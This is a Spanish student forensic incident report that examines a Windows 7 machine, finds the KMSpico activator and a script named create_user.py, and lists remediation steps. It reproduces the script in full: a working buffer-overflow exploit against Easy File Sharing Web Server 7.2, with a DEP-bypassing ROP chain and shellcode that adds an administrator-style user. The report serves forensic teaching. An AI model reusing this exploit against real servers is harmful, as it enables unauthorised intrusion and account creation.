



# Clasificación, valoración y documentación de un incidente

Realizado por:

- Alejandro Seoane

## Indice


# Informe Técnico de Incidente de Seguridad

|        |        |
|--------|--------|
| **Fecha** | 16/12/2024 |
| **TLP**  | AMBER |
| **Nombre** | 2.e.01 |
---

## **1. Resumen Ejecutivo (Informe del incidente)**  

|   Información del analista     |  |
|--------|--------|
| **Nombre** | Alejandro Seoane |
| **Curso**  | Ciberseguridad |
| **Grupo** | 3|


|  |  |
|--------|--------|
| **Fecha instalación** | 30/6/2017 |
| **Sistema Operativo**  | Windows 7 Professional |
| **Nombre Máquina**  | FORENSE_06 |
| **Usuario** | Administrador|

|  Información del incidente   |  |
|--------|--------|
| **Fecha incidente** | 13/12/2024 |
| **Hora incidente** | 13:30 |
| **Sitio del incidente**  | Máquina Windows 7 |
| **Incidentes ocurridos** | Uso de KMSpico (activación ilegal de Windows) |
|| Ejecución de vulnerabilidad (a través de un script)|
|||

### Evaluación del impacto (clasificación según taxonomia)
|  **Incidente** |  **Clasificación** | **Peligrosidad** | **Impacto**| **Prioridad** |
|--------|--------|--------|--------|--------|
| Ejecución de KMSpico | Fraude (activación ilegal de Windows) | Alta | Alto | Alta |
| Ejecución de script que aprovecha vulenaribilidad para crear usuarios | Intento de intrusión (explotación de vulnerabilidades para realizar actividades maliciosas)| Muy alta | Muy alto | Muy alta |


## **2. Resumen Técnico (Informe detallado de cada incidente)**  

### Ejecución de KMSpico (activador de Windows)

En la máquina hemos utilizado algunas herramientas como WRR donde permite leer y analizar los archivos de registro (hives) de Windows.
Viendo en los Softwares que están instalados y vemos a MSpico instalado el cuál activa Windows de manera ilegal.


Utilizando la herramienta **LastACtivityView** la cuál nos permite ver la actividad que se ha ejecutado en el sistema hemos encontrado cunado se ejecutó dicha aplicación.   



Hay que tenber cierto cuidado con este tipo de aplicaciones ya que puede contener en su ejecución malwares que se ejecutenb en nuestro dispositivo como puede ser el script que veremos posteriormente. 

### Script que explota una vulnerabilidad

En el escritorio de la máquina podemos apreciar como hay un archivo llamado `create_user.py`. El contenido de este fichero es el siguiente: 


```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Exploit Title: Easy File Sharing Web Server 7.2 - 'POST' Buffer Overflow (DEP Bypass with ROP)
# Software Link: http://www.sharing-file.com/efssetup.exe
# Created : Ihacklabs Limited
# Version: Easy File Sharing Web Server v7.2
# Tested on: Windows 2012 R2 x64

import socket
import struct
import sys

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <host>\n"
    exit()

# 0x1002280a :  # ADD ESP,1004 # RETN    ** [ImageLoad.dll] **   |  ascii {PAGE_EXECUTE_READ}
ret = struct.pack("<I", 0x1002280a)


#msfvenom -p windows/adduser user=ihacklabs password=Ihack12/ -e x86/alpha_mixed -v Shellcode4 -f python                                                                  (master✱)
#No platform was selected, choosing Msf::Module::Platform::Windows from the payload
#No Arch selected, selecting Arch: x86 from the payload
#Found 1 compatible encoders
#Attempting to encode payload with 1 iterations of x86/alpha_mixed
#x86/alpha_mixed succeeded with size 622 (iteration=0)
#x86/alpha_mixed chosen with final size 622
#Payload size: 622 bytes
#Final size of python file: 3474 bytes

Shellcode4 = "\x90"*250
Shellcode4 += "\x89\xe2\xd9\xe9\xd9\x72\xf4\x5d\x55\x59\x49"
Shellcode4 += "\x49\x49\x49\x49\x49\x49\x49\x49\x49\x43\x43"
Shellcode4 += "\x43\x43\x43\x43\x37\x51\x5a\x6a\x41\x58\x50"
Shellcode4 += "\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42"
Shellcode4 += "\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38"
Shellcode4 += "\x41\x42\x75\x4a\x49\x59\x6c\x58\x68\x6e\x62"
Shellcode4 += "\x55\x50\x75\x50\x35\x50\x33\x50\x4d\x59\x6d"
Shellcode4 += "\x35\x75\x61\x6f\x30\x42\x44\x6e\x6b\x52\x70"
Shellcode4 += "\x46\x50\x4c\x4b\x71\x42\x76\x6c\x6e\x6b\x62"
Shellcode4 += "\x72\x55\x44\x4e\x6b\x30\x72\x57\x58\x56\x6f"
Shellcode4 += "\x78\x37\x43\x7a\x35\x76\x75\x61\x4b\x4f\x4c"
Shellcode4 += "\x6c\x67\x4c\x50\x61\x63\x4c\x56\x62\x76\x4c"
Shellcode4 += "\x35\x70\x5a\x61\x48\x4f\x46\x6d\x63\x31\x49"
Shellcode4 += "\x57\x4b\x52\x48\x72\x52\x72\x36\x37\x4c\x4b"
Shellcode4 += "\x50\x52\x36\x70\x6c\x4b\x50\x4a\x65\x6c\x4c"
Shellcode4 += "\x4b\x32\x6c\x64\x51\x54\x38\x6d\x33\x52\x68"
Shellcode4 += "\x33\x31\x58\x51\x72\x71\x4c\x4b\x52\x79\x55"
Shellcode4 += "\x70\x55\x51\x69\x43\x6e\x6b\x73\x79\x77\x68"
Shellcode4 += "\x49\x73\x55\x6a\x43\x79\x4e\x6b\x54\x74\x6c"
Shellcode4 += "\x4b\x43\x31\x58\x56\x45\x61\x4b\x4f\x4e\x4c"
Shellcode4 += "\x39\x51\x4a\x6f\x44\x4d\x45\x51\x4f\x37\x57"
Shellcode4 += "\x48\x69\x70\x52\x55\x6a\x56\x54\x43\x71\x6d"
Shellcode4 += "\x79\x68\x57\x4b\x63\x4d\x36\x44\x50\x75\x59"
Shellcode4 += "\x74\x46\x38\x4e\x6b\x66\x38\x67\x54\x33\x31"
Shellcode4 += "\x49\x43\x52\x46\x4e\x6b\x66\x6c\x32\x6b\x6e"
Shellcode4 += "\x6b\x62\x78\x45\x4c\x36\x61\x48\x53\x6c\x4b"
Shellcode4 += "\x33\x34\x6c\x4b\x75\x51\x48\x50\x4c\x49\x33"
Shellcode4 += "\x74\x65\x74\x65\x74\x63\x6b\x71\x4b\x73\x51"
Shellcode4 += "\x66\x39\x33\x6a\x52\x71\x6b\x4f\x6d\x30\x61"
Shellcode4 += "\x4f\x61\x4f\x32\x7a\x6c\x4b\x44\x52\x58\x6b"
Shellcode4 += "\x6e\x6d\x53\x6d\x70\x6a\x75\x51\x4e\x6d\x6d"
Shellcode4 += "\x55\x6f\x42\x67\x70\x73\x30\x57\x70\x36\x30"
Shellcode4 += "\x62\x48\x36\x51\x6c\x4b\x42\x4f\x6f\x77\x69"
Shellcode4 += "\x6f\x68\x55\x4f\x4b\x4c\x30\x6c\x75\x79\x32"
Shellcode4 += "\x52\x76\x45\x38\x69\x36\x4a\x35\x6f\x4d\x6f"
Shellcode4 += "\x6d\x4b\x4f\x68\x55\x45\x6c\x43\x36\x61\x6c"
Shellcode4 += "\x57\x7a\x6f\x70\x79\x6b\x6d\x30\x42\x55\x73"
Shellcode4 += "\x35\x4f\x4b\x72\x67\x55\x43\x54\x32\x50\x6f"
Shellcode4 += "\x53\x5a\x37\x70\x71\x43\x4b\x4f\x59\x45\x52"
Shellcode4 += "\x43\x62\x4d\x65\x34\x44\x6e\x31\x75\x30\x78"
Shellcode4 += "\x51\x75\x37\x50\x74\x6f\x63\x53\x47\x50\x62"
Shellcode4 += "\x4e\x70\x65\x54\x34\x57\x50\x53\x45\x31\x63"
Shellcode4 += "\x52\x45\x61\x62\x45\x70\x51\x79\x70\x68\x70"
Shellcode4 += "\x61\x53\x53\x50\x6b\x30\x6c\x35\x31\x43\x52"
Shellcode4 += "\x50\x73\x35\x70\x70\x4d\x32\x45\x53\x44\x53"
Shellcode4 += "\x51\x43\x43\x70\x70\x62\x4c\x72\x4f\x62\x49"
Shellcode4 += "\x63\x44\x31\x34\x65\x61\x65\x70\x76\x4f\x61"
Shellcode4 += "\x51\x71\x54\x30\x44\x71\x30\x34\x66\x45\x76"
Shellcode4 += "\x57\x50\x52\x4e\x63\x55\x31\x64\x67\x50\x30"
Shellcode4 += "\x6c\x52\x4f\x73\x53\x31\x71\x30\x6c\x62\x47"
Shellcode4 += "\x61\x62\x42\x4f\x30\x75\x44\x30\x47\x50\x51"
Shellcode4 += "\x51\x50\x64\x72\x4d\x30\x69\x72\x4e\x42\x49"
Shellcode4 += "\x61\x63\x32\x54\x71\x62\x63\x51\x72\x54\x70"
Shellcode4 += "\x6f\x71\x62\x44\x33\x75\x70\x63\x59\x71\x78"
Shellcode4 += "\x35\x31\x55\x33\x62\x4b\x32\x4c\x50\x61\x32"
Shellcode4 += "\x42\x51\x63\x37\x50\x56\x4f\x53\x71\x50\x44"
Shellcode4 += "\x50\x44\x43\x30\x41\x41"


def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        # 0x00000000,  # [-] Unable to find gadget to put 00000201 into ebx
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0xFFFFFDFE,  # -202
        0x100231d1,  # NEG EAX # RETN [ImageLoad.dll]
        0x1001da09,  # ADD EBX,EAX # MOV EAX,DWORD PTR SS:[ESP+C] # INC DWORD PTR DS:[EAX] # RETN [ImageLoad.dll]|   {PAGE_EXECUTE_READ}
        0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
        0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0x1004de84,  # &Writable location [ImageLoad.dll]
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0x61c832d0,  # ptr to &VirtualProtect() [IAT sqlite3.dll]
        0x1002248c,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ImageLoad.dll]
        0x61c0a798,  # XCHG EAX,EDI # RETN [sqlite3.dll]
        0x1001d626,  # XOR ESI,ESI # RETN [ImageLoad.dll]
        0x10021a3e,  # ADD ESI,EDI # RETN 0x00 [ImageLoad.dll]
        0x100218f9,  # POP EBP # RETN [ImageLoad.dll]
        0x61c24169,  # & push esp # ret  [sqlite3.dll]
        0x10022c4c,  # XOR EDX,EDX # RETN [ImageLoad.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x1001bd98,  # POP ECX # RETN [ImageLoad.dll]
        0x1004de84,  # &Writable location [ImageLoad.dll]
        0x61c373a4,  # POP EDI # RETN [sqlite3.dll]
        0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0x90909090,  # nop
        0x100240c2,  # PUSHAD # RETN [ImageLoad.dll]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

payload = "A"*2278 + rop_chain + "\x90"*4 +  Shellcode4 + "B"*(1790-len(Shellcode4)-len(rop_chain)) + ret

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 8089))
s.send("POST /sendemail.ghp HTTP/1.1\r\n\r\nEmail=" + payload + "&getPassword=Get+Password")
print "[+] Envio del exploit"
print "[+] Cargado Payload"
print "[+] Creado usuario ihacklabs con password" + " " +" Ihack12/"
s.close()
```

Tras pasar el contenido del archivo por ChatGPT para buscar que vulnerabilidad intenta explotar conseguimos descubrir lo siguiente: 
- El archivo busca explotar una vulnerabilidad de desbordamiento de búfer en el software Easy File Sharing Web Server versión 7.2.

- El exploit se aprovecha de un desbordamiento de búfer en la funcionalidad de manejo de solicitudes POST del servidor web objetivo. Al enviar una carga de codigo maliciosa el atacante puede ejecutar código malicioso en el sistema que qhaya seleccionado. 

- El script requiere que se le pase la dirección IP del servidor vulnerable como dato y utilizará una librería (llamada socket) para conectarse al servidor.

- La parte de ShellCode ejecuta un código malicioso en el servidor donde intenta crear un usuario en el sistema con credenciales. 

- Si se llega a ejecutar este script en un servidor el atacante podría tener acceso al servidor a través de la creación de un usuario remoto que tiene privilegios por lo que es muy peligroso. 

En LastActivityView podemos ver cuando se ejecuto dicho script. 



## Recomendaciones y contramedidas

### Eliminar y "desinfectar" el sistema

- Desisntalar la aplicación KMSpico y sus archivos relacionados.
- Hacer escaneo del sistema con alguna aplicación

### Restauración del sistema

- Reinstalar Winmdows desde 0 en el disco
- Uso de alguna herramienta de reparación del sistema


### Fortalecer el sistema

- Instalar un antivirus y mantenerlo en su última versión
- Tener actualizado Windows
- Habilitar el Firewall


## Fuentes

Hemos utilizado [chatgpt](https://chatgpt.com/) para el análsisis del script.  

Hemos utilizado las referencias de la unidad para seguir una estructura.
